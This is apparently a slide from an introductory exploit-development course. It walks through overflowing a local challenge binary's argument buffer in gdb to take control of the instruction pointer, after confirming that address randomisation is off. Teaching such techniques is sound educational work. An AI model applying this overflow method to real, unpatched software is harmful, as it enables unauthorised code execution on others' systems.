

# Exploiting your first stack overflow
$ cat /proc/sys/kernel/randomize_va_space
0
$ gdb -q --args ./bof $(python -c 'print "A" * 140 + "BBBB"')
Reading symbols from ./bof...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/user/Challenges/bof/bof
argv[1]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/20x $esp - 160
0xffffd4a0:     0x080485c0      0xffffd4b0      0x000000c2      0xf7e9562b
0xffffd4b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd4c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd4d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd4e0:     0x41414141      0x41414141      0x41414141      0x41414141
(gdb)
Disable ASLR